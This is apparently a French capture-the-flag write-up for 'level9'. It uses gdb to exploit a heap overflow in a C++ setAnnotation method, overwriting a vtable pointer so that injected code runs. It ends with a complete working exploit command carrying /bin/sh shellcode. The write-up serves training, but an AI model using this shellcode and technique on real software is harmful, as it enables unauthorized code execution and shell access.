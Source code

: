 En desassemblant le main on se rend compte que le binaire a été coder en cpp.

Les lignes comme

```gdb
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
``
Ou
```gdb
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
```
Nous le confirme.

On peux voir qu'il y 'a un appel a memcpy dans le methode setAnnotation sur un buffer de 108 que l'on peux override

```gdb
0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
...
...
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
```

On va tenter d'executer un shellcode.

```gdb
(gdb) b *0x0804867c
(gdb) r $(python -c "print('B' * 108)")
(gdb) x/10xw $esp
0xbffff640:	0x0804a008	0xbffff84b	0xbffff710	0xb7d79e55
0xbffff650:	0x0804a078	0x0804a008	0x0804a078	0x0804a008
0xbffff660:	0x08048770	0xb7eebff4
(gdb) x/10xw 0x0804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242
(gdb) x/xw 0x804a008
0x804a008:	0x08048848
(gdb) x/x 0x08048848 //pointeur de la table virtuelle qui est passer par le compilateur cpp
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) x/x $eax
0x804a00c:	0x42424242
```
On récupere l'adresse de notre buffer. 0x804a008 + 0x4 == 0x0x804a00c

On récupere l'adresse qui est utilisé après le décalage 0x0804a010

On a plus qu'a construire notre payload.

[address de notre shellcode][shellcode][bourrage 108 - 4 address shelllcode - 33 taille de shellcode][addresse de notre buffer]

```gdb
./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x68\x2f\x73\x68\x31\x80\x74\x24\x03\x31\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80' + ('B' * (104 - 33)) + '\x0c\xa0\x04\x08')")
```

